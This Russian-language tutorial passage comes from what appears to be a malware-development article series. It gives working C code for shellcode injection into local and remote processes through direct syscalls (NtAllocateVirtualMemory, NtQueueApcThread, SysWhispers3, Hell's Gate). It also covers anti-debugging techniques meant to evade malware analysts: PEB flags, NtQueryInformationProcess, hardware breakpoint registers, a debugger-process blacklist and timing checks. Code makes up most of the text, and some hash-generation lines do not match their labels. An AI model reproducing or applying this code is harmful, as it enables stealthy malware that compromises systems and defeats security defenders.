if (!GetImageExportDirectory(pLdrDataEntry->DllBase, &pImageExportDirectory) || pImageExportDirectory == NULL)
return 0x01;
//--------------------------------------------------------------------------
// Initializing the 'Table' structure
VX_TABLE Table = { 0 };
Table.NtAllocateVirtualMemory.dwHash = NtAllocateVirtualMemory_djb2;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtAllocateVirtualMemory))
return 0x1;
Table.NtWriteVirtualMemory.dwHash = NtWriteVirtualMemory_djb2;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtWriteVirtualMemory))
return 0x1;
Table.NtProtectVirtualMemory.dwHash = NtProtectVirtualMemory_djb2;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtProtectVirtualMemory))
return 0x1;
Table.NtCreateThreadEx.dwHash = NtCreateThreadEx_djb2;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtCreateThreadEx))
return 0x1;
//--------------------------------------------------------------------------
// injection code - calling the 'ClassicInjectionViaSyscalls' function
// If local injection
#ifdef LOCAL_INJECTION if (!LocalMappingInjectionViaSyscalls(&Table, (HANDLE)-1, Payload, sizeof(Payload)))
return 0x1;
#endif // LOCAL_INJECTION// If remote injection
#ifdef REMOTE_INJECTION// Open a handle to the target process
printf("[i] Targeting process of id : %d \n", PROCESS_ID);
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PROCESS_ID);
if (hProcess == NULL) {
printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());
return -1;
}
if (!RemoteMappingInjectionViaSyscalls(&Table, hProcess, Payload, sizeof(Payload)))
return 0x1;
#endif // REMOTE_INJECTIONreturn 0x00;
}Локальная vs удаленная инъекция
Аналогично предыдущему модулю, был создан макрос-препроцессорный код для целей локального процесса, если LOCAL_INJECTION определено. Пример препроцессорного кода приведен ниже:
Код:
#define LOCAL_INJECTION#ifndef LOCAL_INJECTION#define REMOTE_INJECTION// Установите PID целевого процесса
#define PROCESS_ID 18784 #endif // !LOCAL_INJECTIONДавайте теперь перепишем технику Изучаем технику APC Injection | Цикл статей "Изучение вредоносных программ"
Этот модуль реализует технику инъекции APC с использованием прямых системных вызовов, заменяя WinAPI на их эквиваленты с использованием системных вызовов. Выделение памяти и запись полезной нагрузки будут выполняться с использованием функций NtAllocateVirtualMemory, NtProtectVirtualMemory и NtWriteVirtualMemory, которые уже обсуждались в реализации классической инъекции. Оставшийся системный вызов, который будет объяснен, - это NtQueueApcThread.
QueueUserAPC заменен на NtQueueApcThread.
NtQueueApcThread
Этот системный вызов является результатом QueueUserAPC WinAPI. Nиже приведен пример NtQueueApcThread.
C:
NTSTATUS NtQueueApcThread(
IN HANDLE ThreadHandle, // Дескриптор потока для выполнения указанной APC
IN PIO_APC_ROUTINE ApcRoutine, // Указатель на предоставленную пользователем функцию APC для выполнения
IN PVOID ApcRoutineContext OPTIONAL, // Указатель на параметр (1) для APC (установлен в NULL)
IN PIO_STATUS_BLOCK ApcStatusBlock OPTIONAL, // Указатель на параметр (2) для APC (установлен в NULL)
IN ULONG ApcReserved OPTIONAL // Указатель на параметр (3) для APC (установлен в NULL)
);Первые два параметра тривиальны для понимания. Оставшиеся три - ApcRoutineContext, ApcStatusBlock и ApcReserved, используются в качестве параметров для функции APC, ApcRoutine.
Создание потока, поддерживающего сигналы
Поскольку техника инъекции APC требует наличия потока в состоянии, поддерживающем сигналы, это обеспечивается с использованием функции CreateThread WinAPI.
Функция AlterableFunction будет вызываться жертвенным потоком.
C:
VOID AlterableFunction() {
HANDLE hEvent = CreateEvent(NULL, NULL, NULL, NULL);
MsgWaitForMultipleObjectsEx(
1,
&hEvent,
INFINITE,
QS_HOTKEY,
MWMO_ALERTABLE
);
}Реализация с использованием GetProcAddress и GetModuleHandle
Создается и инициализируется структура Syscall с помощью функции InitializeSyscallStruct, которая содержит адреса используемых системных вызовов, как показано ниже.
C:
typedef struct _Syscall {
fnNtAllocateVirtualMemory pNtAllocateVirtualMemory;
fnNtProtectVirtualMemory pNtProtectVirtualMemory;
fnNtWriteVirtualMemory pNtWriteVirtualMemory;
fnNtQueueApcThread pNtQueueApcThread;
} Syscall, * PSyscall;Функция для заполнения структуры 'St'
C:
BOOL InitializeSyscallStruct(OUT PSyscall St) {
rust
Copy code
HMODULE hNtdll = GetModuleHandle(L"NTDLL.DLL");
if (!hNtdll) {
printf("[!] GetModuleHandle Failed With Error : %d \n", GetLastError());
return FALSE;
}
St->pNtAllocateVirtualMemory = (fnNtAllocateVirtualMemory)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
St->pNtProtectVirtualMemory = (fnNtProtectVirtualMemory)GetProcAddress(hNtdll, "NtProtectVirtualMemory");
St->pNtWriteVirtualMemory = (fnNtWriteVirtualMemory)GetProcAddress(hNtdll, "NtWriteVirtualMemory");
St->pNtQueueApcThread = (fnNtQueueApcThread)GetProcAddress(hNtdll, "NtQueueApcThread");
// Проверка, что GetProcAddress не пропустил системный вызов
if (St->pNtAllocateVirtualMemory == NULL || St->pNtProtectVirtualMemory == NULL || St->pNtWriteVirtualMemory == NULL || St->pNtQueueApcThread == NULL)
return FALSE;
else
return TRUE;
}Далее функция ApcInjectionViaSyscalls будет отвечать за выделение, запись и выполнение полезной нагрузки pPayload в целевом процессе hProcess. Она будет использовать дескриптор жертвенного потока hThread. Функция возвращает FALSE, если не удается выполнить полезную нагрузку, и TRUE, если выполнение прошло успешно.
C:
BOOL ApcInjectionViaSyscalls(IN HANDLE hProcess, IN HANDLE hThread, IN PVOID pPayload, IN SIZE_T sPayloadSize) {
Syscall St = { 0 };
NTSTATUS STATUS = NULL;
PVOID pAddress = NULL;
ULONG uOldProtection = NULL;
SIZE_T sSize = sPayloadSize,
sNumberOfBytesWritten = NULL;
// Инициализация структуры 'St' для получения адресов системных вызовов
if (!InitializeSyscallStruct(&St)) {
printf("[!] Could Not Initialize The Syscall Struct \n");
return FALSE;
}
// Выделение памяти
if ((STATUS = St.pNtAllocateVirtualMemory(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);
//--------------------------------------------------------------------------
// Запись полезной нагрузки
printf("[#] Press <Enter> To Write The Payload ... ");
getchar();
printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
if ((STATUS = St.pNtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
return FALSE;
}
printf("[+] DONE \n");
//--------------------------------------------------------------------------
// Изменение разрешений памяти на RWX
if ((STATUS = St.pNtProtectVirtualMemory(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
//--------------------------------------------------------------------------
// Выполнение полезной нагрузки с помощью NtQueueApcThread
printf("[#] Press <Enter> To Run The Payload ... ");
getchar();
printf("\t[i] Running Payload At 0x%p Using Thread Of Id : %d ... ", pAddress, GetThreadId(hThread));
if ((STATUS = St.pNtQueueApcThread(hThread, pAddress, NULL, NULL, NULL)) != 0) {
printf("[!] NtQueueApcThread Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] DONE \n");
return TRUE;
}Реализация с использованием SysWhispers
Здесь реализация использует SysWhispers3 для обхода пользовательских хуков через прямые системные вызовы. Для этой реализации используется следующая команда для создания необходимых файлов.
Код:
python syswhispers.py -a x64 -c msvc -m jumper_randomized -f NtAllocateVirtualMemory,NtProtectVirtualMemory,NtWriteVirtualMemory,NtQueueApcThread -o SysWhispers -vГенерируются три файла: SysWhispers.h, SysWhispers.c и SysWhispers-asm.x64.asm.
Следующим шагом является импорт этих файлов в Visual Studio, как было продемонстрировано ранее. Функция ApcInjectionViaSyscalls приведена ниже.
C:
BOOL ApcInjectionViaSyscalls(IN HANDLE hProcess, IN HANDLE hThread, IN PVOID pPayload, IN SIZE_T sPayloadSize) {
Syscall St = { 0 };
NTSTATUS STATUS = NULL;
PVOID pAddress = NULL;
ULONG uOldProtection = NULL;
SIZE_T sSize = sPayloadSize,
sNumberOfBytesWritten = NULL;
// Выделение памяти
if ((STATUS = NtAllocateVirtualMemory(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);
//--------------------------------------------------------------------------
// Запись полезной нагрузки
printf("[#] Press <Enter> To Write The Payload ... ");
getchar();
printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
if ((STATUS = NtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
return FALSE;
}
printf("[+] DONE \n");
//--------------------------------------------------------------------------
// Изменение разрешений памяти на RWX
if ((STATUS = NtProtectVirtualMemory(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
//--------------------------------------------------------------------------
// Выполнение полезной нагрузки с помощью NtQueueApcThread
printf("[#] Press <Enter> To Run The Payload ... ");
getchar();
printf("\t[i] Running Payload At 0x%p Using Thread Of Id : %d ... ", pAddress, GetThreadId(hThread));
if ((STATUS = NtQueueApcThread(hThread, pAddress, NULL, NULL, NULL)) != 0) {
printf("[!] NtQueueApcThread Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] DONE \n");
return TRUE;
}Реализация с использованием Hell's Gate
Последняя реализация для этого модуля использует Hell's Gate. Сначала убедитесь, что здесь выполняются те же шаги, что и для настройки проекта Visual Studio с SysWhispers3. В частности, включение MASM и изменение свойств для компиляции файла ASM с использованием Microsoft Macro Assembler.
Обновление структуры VX_TABLE
C:
typedef struct _VX_TABLE {
VX_TABLE_ENTRY NtAllocateVirtualMemory;
VX_TABLE_ENTRY NtWriteVirtualMemory;
VX_TABLE_ENTRY NtProtectVirtualMemory;
VX_TABLE_ENTRY NtQueueApcThread;
} VX_TABLE, * PVX_TABLE;Обновление значения начального числа (seed)
Для замены старого значения начального числа будет использоваться новое значение, чтобы изменить хэш-значения системных вызовов. Функция хеширования djb2 обновляется новым значением начального числа, как показано ниже.
C:
DWORD64 djb2(PBYTE str) {
DWORD64 dwHash = 0x77347734DEADBEEF; // Old value: 0x7734773477347734
INT c;
while (c = *str++)
dwHash = ((dwHash << 0x5) + dwHash) + c;
return dwHash;
}Следующие операторы printf должны быть добавлены в новый проект для генерации хэш-значений djb2 (По аналогии с примерами выше, напишите консольную программу).
C:
printf("#define %s%s 0x%p \n", "NtAllocateVirtualMemory", "_djb2", (DWORD64)djb2("NtCreateSection"));
printf("#define %s%s 0x%p \n", "NtWriteVirtualMemory", "_djb2", djb2("NtMapViewOfSection"));
printf("#define %s%s 0x%p \n", "NtProtectVirtualMemory", "_djb2", djb2("NtUnmapViewOfSection"));
printf("#define %s%s 0x%p \n", "NtQueueApcThread", "_djb2", djb2("NtClose"));
printf("#define %s%s 0x%p \n", "NtCreateThreadEx", "_djb2", djb2("NtCreateThreadEx"));После генерации значений добавьте их в начало проекта Hell's Gate.
Код:
#define NtAllocateVirtualMemory_djb2 0x7B2D1D431C81F5F6
#define NtWriteVirtualMemory_djb2 0x54AEE238645CCA7C
#define NtProtectVirtualMemory_djb2 0xA0DCC2851566E832
#define NtQueueApcThread_djb2 0x331E6B6B7E696022Функция ApcInjectionViaSyscalls
Код:
BOOL ApcInjectionViaSyscalls(IN PVX_TABLE pVxTable, IN HANDLE hProcess, IN HANDLE hThread, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {
Syscall St = { 0 };
NTSTATUS STATUS = NULL;
PVOID pAddress = NULL;
ULONG uOldProtection = NULL;
SIZE_T sSize = sPayloadSize,
sNumberOfBytesWritten = NULL;
// Allocating memory
HellsGate(pVxTable->NtAllocateVirtualMemory.wSystemCall);
if ((STATUS = HellDescent(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);
//--------------------------------------------------------------------------
// Writing the payload
printf("[#] Press <Enter> To Write The Payload ... ");
getchar();
printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
HellsGate(pVxTable->NtWriteVirtualMemory.wSystemCall);
if ((STATUS = HellDescent(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
return FALSE;
}
printf("[+] DONE \n");
//--------------------------------------------------------------------------
// Changing the memory's permissions to RWX
HellsGate(pVxTable->NtProtectVirtualMemory.wSystemCall);
if ((STATUS = HellDescent(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
//--------------------------------------------------------------------------
// Executing the payload via NtQueueApcThread
printf("[#] Press <Enter> To Run The Payload ... ");
getchar();
printf("\t[i] Running Payload At 0x%p Using Thread Of Id : %d ... ", pAddress, GetThreadId(hThread));
HellsGate(pVxTable->NtQueueApcThread.wSystemCall);
if ((STATUS = HellDescent(hThread, pAddress, NULL, NULL, NULL)) != 0) {
printf("[!] NtQueueApcThread Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] DONE \n");
return TRUE;
}Удаленная инъекция
Возможно использовать функцию ApcInjectionViaSyscalls для удаленной инъекции в процесс, но для этого необходимо создать приостановленный процесс. Этот подход обсуждался здесь
Обновление основной функции
Основную функцию (wmain) необходимо обновить для использования функции ApcInjectionViaSyscalls вместо функции полезной нагрузки.
Демонстрация
Использование реализации с использованием SysWhispers.
Использование Hell's Gate
Черпаем силы в антиотладке
Техники антианализа - это методы, предотвращающие деятельность специалистов по безопасности (например, команды blue team) по расследованию вредоносного ПО и поиску статических или динамических сигнатур и IoC. Поскольку эта информация используется для обнаружения образца, когда он вновь обнаруживается в среде.
Организации с большим бюджетом на безопасность, как правило, имеют больше сотрудников, таких как аналитики вредоносных программ, чтобы собирать данные о подозрительных бинарных файлах, анализируя их. В целом, аналитики вредоносных программ всегда найдут способ декомпилировать вредоносное ПО, поэтому цель техник антианализа - усложнить процесс анализа.
С другой стороны, организации с меньшим бюджетом на безопасность будут больше полагаться на автоматизированные инструменты, и поэтому техники антианализа могут быть более эффективными в достижении своей цели.
Рассмотрим инструменты анализа вредоносных программ:
Песочничные среды
Понимание песочничной среды жизненно важно, если вы хотите применять сильные техники антианализа.
Песочница - это изолированная среда, позволяющая выполнять программное обеспечение без воздействия на хост-систему. У песочниц есть несколько применений вне контекста безопасности, которые обсуждаться не будут.
В контексте безопасности песочницы позволяют исследователям безопасности анализировать вредоносное ПО в изолированной среде без ущерба для хоста. Несколько примеров песочниц: Cuckoo Sandbox, Any.run и Crowdstrike Sandbox.
Анализ через отладку
Отладка кода вредоносного ПО позволяет выполнять его шаг за шагом, наблюдая за изменениями в области памяти, изменениями значений переменных и т. д. Это способствует лучшему пониманию намерений и возможностей вредоносного ПО, упрощая процесс создания правил обнаружения для бинарного файла в вопросе.
Техники антиотладки можно использовать для обнаружения наличия отладчика и изменения потока выполнения для запуска безвредного ложного кода, делая процесс отладки неэффективным. Кроме того, может быть завершено выполнение текущего кода, чтобы предотвратить отладку.
Инструменты реверс-инжиниринга вредоносного ПО
Самые популярные инструменты реверс-инжиниринга для вредоносного ПО перечислены ниже:
Ghidra;
Ida;
xdbg
Анализ через виртуальные среды
Виртуальные среды - это изолированные среды, предоставляющие виртуализированную среду для работы программных приложений. Виртуализированные среды используются для изолирования процесса отладки и анализа образцов вредоносного ПО, делая его безопаснее для анализа, чем в реальных сетях.
Песочницы также считаются виртуальной средой, хотя они не позволяют аналитикам вредоносных программ иметь полный доступ к операционной системе, тогда как полноценная виртуальная среда позволяет. Два распространенных программных обеспечения для виртуализации: VMware и VirtualBox.
Выполнение вредоносного кода в виртуальной среде должно быть избегаемо, так как это позволяет аналитикам вредоносных программ разбирать код и писать правила обнаружения для него.
Техники против виртуальных сред будет обсуждаться в следующей статье
Давайте рассмотрим несколько методов анти-отладки:
Обнаружение отладчиков с использованием IsDebuggerPresent
Один из самых простых методов анти-отладки - использование функции WinAPI IsDebuggerPresent. Эта функция возвращает TRUE, если к вызывающему процессу подключен отладчик, и FALSE, если нет. Ниже приведен фрагмент кода, показывающий использование функции для обнаружения отладчика.
C:
if (IsDebuggerPresent()) {
printf("[i] IsDebuggerPresent обнаружил отладчик \n");
// Запустить безопасный код..
}Замена функции IsDebuggerPresent
Вызов функции IsDebuggerPresent WinAPI подозрителен даже в том случае, если он хорошо скрыт через хеширование API. WinAPI считается очень базовым способом обнаружения отладчиков и может быть обойден с помощью инструментов, таких как ScyllaHide, который является плагином для xdbg, предназначенным для обхода анти-отладки.
Более эффективным подходом является создание пользовательской версии функции IsDebuggerPresent WinAPI. Напомним о структуре PEB (Process Environment Block), которая содержит член BeingDebugged, устанавливаемый в 1, когда процесс находится в режиме отладки.
Простая замена функции IsDebuggerPresent WinAPI включает в себя проверку значения BeingDebugged, как показано в пользовательской функции ниже.
Функция IsDebuggerPresent2 возвращает TRUE, если элемент BeingDebugged установлен в 1.
C:
BOOL IsDebuggerPresent2() {
// Получение структуры PEB
#ifdef _WIN64
PPEB pPeb = (PEB*)(__readgsqword(0x60));
#elif _WIN32
PPEB pPeb = (PEB*)(__readfsdword(0x30));
#endif// Проверка элемента 'BeingDebugged'
if (pPeb->BeingDebugged == 1)
return TRUE;
return FALSE;
}Другой способ создания пользовательской версии функции IsDebuggerPresent WinAPI заключается в использовании неудокументированного флага NtGlobalFlag, который также находится в структуре PEB. Элемент NtGlobalFlag устанавливается в 0x70 (шестнадцатеричное значение), если процесс находится в режиме отладки, в противном случае он равен 0. Важно отметить, что элемент NtGlobalFlag устанавливается в 0x70 только при создании процесса отладчиком. Поэтому этот метод не сможет обнаружить отладчик, если он был подключен после запуска.
Значение 0x70 происходит из комбинации следующих флагов:
FLG_HEAP_ENABLE_TAIL_CHECK - 0x10
FLG_HEAP_ENABLE_FREE_CHECK - 0x20
FLG_HEAP_VALIDATE_PARAMETERS - 0x40
Функция IsDebuggerPresent3 возвращает TRUE, если элемент NtGlobalFlag установлен в 0x70.
C:
#define FLG_HEAP_ENABLE_TAIL_CHECK 0x10#define FLG_HEAP_ENABLE_FREE_CHECK 0x20#define FLG_HEAP_VALIDATE_PARAMETERS 0x40
BOOL IsDebuggerPresent3() {
// Получение структуры PEB
#ifdef _WIN64
PPEB pPeb = (PEB*)(__readgsqword(0x60));
#elif _WIN32
PPEB pPeb = (PEB*)(__readfsdword(0x30));
#endif// Проверка элемента 'NtGlobalFlag'
if (pPeb->NtGlobalFlag == (FLG_HEAP_ENABLE_TAIL_CHECK | FLG_HEAP_ENABLE_FREE_CHECK | FLG_HEAP_VALIDATE_PARAMETERS))
return TRUE;
return FALSE;
}Обнаружение отладчика с использованием NtQueryInformationProcess
Системный вызов NtQueryInformationProcess будет использоваться для обнаружения отладчиков с помощью двух флагов: ProcessDebugPort и ProcessDebugObjectHandle.
Напомним, что NtQueryInformationProcess выглядит следующим образом:
C:
NTSTATUS NtQueryInformationProcess(
IN HANDLE ProcessHandle, // Дескриптор процесса, для которого необходимо получить информацию.
IN PROCESSINFOCLASS ProcessInformationClass, // Тип запрашиваемой информации о процессе.
OUT PVOID ProcessInformation, // Указатель на буфер, в который функция записывает запрошенную информацию.
IN ULONG ProcessInformationLength, // Размер буфера, указанного в параметре 'ProcessInformation'.
OUT PULONG ReturnLength // Указатель на переменную, в которой функция возвращает размер запрошенной информации.
);Флаг ProcessDebugPort
Документация Microsoft о флаге ProcessDebugPort гласит следующее:
Получает значение типа DWORD_PTR, которое представляет номер порта отладчика для процесса. Ненулевое значение указывает, что процесс выполняется под управлением отладчика уровня 3.
Другими словами, если NtQueryInformationProcess возвращает ненулевое значение, полученное через параметр ProcessInformation, то процесс активно отлаживается.
Флаг ProcessDebugObjectHandle
Неудокументированный флаг ProcessDebugObjectHandle работает аналогично флагу ProcessDebugPort и используется для получения дескриптора объекта отладки текущего процесса, который создается, если процесс находится в режиме отладки.
Если NtQueryInformationProcess не удается получить дескриптор объекта отладки, это означает, что он не обнаружил отладчик, и функция вернет код ошибки 0xC0000353. Согласно документации Microsoft о значениях NTSTATUS, код ошибки эквивалентен STATUS_PORT_NOT_SET.
Код антиотладки
NtQueryInformationProcess
Функция NtQIPDebuggerCheck использует как ProcessInformation, так и ProcessDebugObjectHandle для обнаружения отладчиков. Функция возвращает TRUE, если NtQueryInformationProcess возвращает действительный дескриптор, используя оба флага ProcessDebugPort и ProcessDebugObjectHandle.
C:
BOOL NtQIPDebuggerCheck() {
NTSTATUS STATUS = NULL;
fnNtQueryInformationProcess pNtQueryInformationProcess = NULL;
DWORD64 dwIsDebuggerPresent = NULL;
DWORD64 hProcessDebugObject = NULL;
// Получение адреса NtQueryInformationProcess
pNtQueryInformationProcess = (fnNtQueryInformationProcess)GetProcAddress(GetModuleHandle(TEXT("NTDLL.DLL")), "NtQueryInformationProcess");
if (pNtQueryInformationProcess == NULL) {
printf("\t[!] GetProcAddress завершилось с ошибкой: %d \n", GetLastError());
return FALSE;
}
// Вызов NtQueryInformationProcess с флагом 'ProcessDebugPort'
STATUS = pNtQueryInformationProcess(
GetCurrentProcess(),
ProcessDebugPort,
&dwIsDebuggerPresent,
sizeof(DWORD64),
NULL
);
if (STATUS != 0x0) {
printf("\t[!] NtQueryInformationProcess [1] завершилось с кодом статуса: 0x%0.8X \n", STATUS);
return FALSE;
}
// Если NtQueryInformationProcess возвращает ненулевое значение, дескриптор действителен, что означает, что мы находимся в режиме отладки
if (dwIsDebuggerPresent != NULL) {
// обнаружен отладчик
return TRUE;
}
// Вызов NtQueryInformationProcess с флагом 'ProcessDebugObjectHandle'
STATUS = pNtQueryInformationProcess(
GetCurrentProcess(),
ProcessDebugObjectHandle,
&hProcessDebugObject,
sizeof(DWORD64),
NULL
);
// Если STATUS не равен 0 и не равен 0xC0000353 (это 'STATUS_PORT_NOT_SET')
if (STATUS != 0x0 && STATUS != 0xC0000353) {
printf("\t[!] NtQueryInformationProcess [2] завершилось с кодом статуса: 0x%0.8X \n", STATUS);
return FALSE;
}
// Если NtQueryInformationProcess возвращает ненулевое значение, дескриптор действителен, что означает, что мы находимся в режиме отладки
if (hProcessDebugObject != NULL) {
// обнаружен отладчик
return TRUE;
}
return FALSE;
}Обнаружение отладчика с использованием аппаратных точек останова
Этот метод действителен только в том случае, если во время отладки установлены аппаратные точки останова. Аппаратные точки останова, также известные как регистры аппаратной отладки, являются функцией современных микропроцессоров, которая приостанавливает выполнение процесса при срабатывании определенного адреса памяти или события. Аппаратные точки останова реализованы в самом процессоре и, следовательно, более быстры и эффективны, чем обычные программные точки останова, которые зависят от операционной системы или отладчика для периодической проверки выполнения программы.
Когда устанавливаются аппаратные точки останова, изменяются значения определенных регистров. Значения этих регистров можно использовать для определения, подключен ли отладчик к процессу. Если регистры Dr0, Dr1, Dr2 и Dr3 содержат ненулевое значение, то аппаратная точка останова установлена. В следующем примере устанавливается аппаратная точка останова на системный вызов NtAllocateVirtualMemory с использованием отладчика xdbg. Обратите внимание, как значение Dr0 изменяется с нуля на адрес NtAllocateVirtualMemory.
Получение значений регистров
Для получения значений регистров Dr можно использовать функцию WinAPI GetThreadContext.
Функция возвращает контекст в виде структуры CONTEXT. Эта структура также включает в себя значения регистров Dr0, Dr1, Dr2 и Dr3.
Функция HardwareBpCheck обнаруживает наличие отладчика путем проверки значений вышеуказанных регистров.
Функция возвращает TRUE, если обнаружен отладчик.
C:
BOOL HardwareBpCheck() {
CONTEXT Ctx = { .ContextFlags = CONTEXT_DEBUG_REGISTERS };
if (!GetThreadContext(GetCurrentThread(), &Ctx)) {
printf("\t[!] GetThreadContext не удалось : %d \n", GetLastError());
return FALSE;
}
if (Ctx.Dr0 != NULL || Ctx.Dr1 != NULL || Ctx.Dr2 != NULL || Ctx.Dr3 != NULL)
return TRUE; // Обнаружен отладчик
return FALSE;
}Обнаружение отладчика с использованием черного списка процессов
Другой способ обнаружения процессов в режиме отладки заключается в проверке имен текущих выполняющихся процессов по списку известных имен отладчиков. Этот "черный список" имен хранится в жестко закодированном массиве. Если происходит совпадение между именем процесса и списком запретных имен, то на системе работает приложение отладчика.
Перечисление процессов, выполняющихся на компьютере, можно осуществить с использованием любого из рассмотренных ранее методов. В данном случае будет использован метод перечисления процессов CreateToolhelp32Snapshot.
Массив черного списка представлен следующим образом:
C:
#define BLACKLISTARRAY_SIZE 5 // Количество элементов в массиве
WCHAR* g_BlackListedDebuggers[BLACKLISTARRAY_SIZE] = {
L"x64dbg.exe", // Отладчик xdbg
L"ida.exe", // Дизассемблер IDA
L"ida64.exe", // Дизассемблер IDA
L"VsDebugConsole.exe", // Отладчик Visual Studio
L"msvsmon.exe" // Отладчик Visual Studio
};Массив черного списка должен содержать как можно больше имен отладчиков, чтобы обнаружить широкий спектр отладчиков. Кроме того, строки должны быть обфусцированы с использованием хеширования строк, так как имена отладчиков в бинарном файле могут быть использованы как индикаторы компрометации.
Функция BlackListedProcessesCheck использует массив процессов g_BlackListedDebuggers в качестве массива запретных процессов. Она возвращает TRUE в случае совпадения имени процесса с элементом g_BlackListedDebuggers.
C:
BOOL BlackListedProcessesCheck() {
HANDLE hSnapShot = NULL;
PROCESSENTRY32W ProcEntry = { .dwSize = sizeof(PROCESSENTRY32W) };
BOOL bSTATE = FALSE;
hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
if (hSnapShot == INVALID_HANDLE_VALUE) {
printf("\t[!] CreateToolhelp32Snapshot не удалось : %d \n", GetLastError());
goto _EndOfFunction;
}
if (!Process32FirstW(hSnapShot, &ProcEntry)) {
printf("\t[!] Process32FirstW не удалось : %d \n", GetLastError());
goto _EndOfFunction;
}
do {
// Перебирает массив 'g_BlackListedDebuggers' и сравнивает каждый элемент с текущим именем процесса, полученным из снимка
for (int i = 0; i < BLACKLISTARRAY_SIZE; i++){
if (wcscmp(ProcEntry.szExeFile, g_BlackListedDebuggers[i]) == 0) {
// Обнаружен отладчик
wprintf(L"\t[i] Найден \"%s\" с PID : %d \n", ProcEntry.szExeFile, ProcEntry.th32ProcessID);
bSTATE = TRUE;
break;
}
}
} while (Process32Next(hSnapShot, &ProcEntry));
_EndOfFunction:
if (hSnapShot != NULL)
CloseHandle(hSnapShot);
return bSTATE;
}Обнаружение точек останова с использованием GetTickCount64
Точки останова используются для приостановки выполнения программы в определенной точке, что позволяет провести анализ памяти, состояния регистров, переменных и многого другого.
Приостановку выполнения можно обнаружить с использованием WinAPI GetTickCount64. Эта функция получает количество миллисекунд, прошедших с момента запуска системы. Анализ времени, затраченного процессором между двумя вызовами GetTickCount64, может указать, выполняется ли отладка вредоносного программного обеспечения. Если время превышает ожидаемое, то можно предположить, что вредоносное программное обеспечение отлаживается.
Обнаружение задержек точки останова можно обнаружить, вычислив среднее значение T1 - T0 и сохраняя его как жестко закодированное значение. Если разница между T1 и T0 превышает это значение, то задержка, скорее всего, вызвана точкой останова. Например, если разница между T1 - T0 на хост-машине составляет 20 секунд, но на выполнение требуется больше времени, то существует сильная вероятность, что задержка между этими двумя точками вызвана точкой останова. Исходное значение следует немного увеличить, чтобы учесть медленные процессоры.
Код антидебаггинга с использованием GetTickCount64
Функция TimeTickCheck определяет, выполняется ли отладка вредоносного программного обеспечения, путем анализа разницы между двумя вызовами GetTickCount64. Если разница больше заданного порога, то считается, что происходит отладка.
Код:
DWORD64 TimeTickCheck() {
DWORD64 T0 = 0;
DWORD64 T1 = 0;
// Запомнить начальное время
T0 = GetTickCount64();
// Выполнить некоторые действия, которые могут быть остановлены точкой останова
// Получить время после выполнения действий
T1 = GetTickCount64();
// Вычислить разницу
DWORD64 TimeDiff = T1 - T0;
return TimeDiff;
}Обнаружение точек останова с использованием QueryPerformanceCounter
Функция QueryPerformanceCounter WinAPI аналогична ранее рассмотренной функции GetTickCount64 WinAPI. Разница заключается в том, что QueryPerformanceCounter использует высокоразрешающий счетчик производительности, предоставляемый аппаратным обеспечением, который может измерять время с точностью до наносекунд, в то время как GetTickCount64 использует счетчик времени, увеличивающийся каждую миллисекунду. Обратите внимание, что функция QueryPerformanceCounter извлекает значение счетчика производительности в единицах счета, а не в миллисекундах.
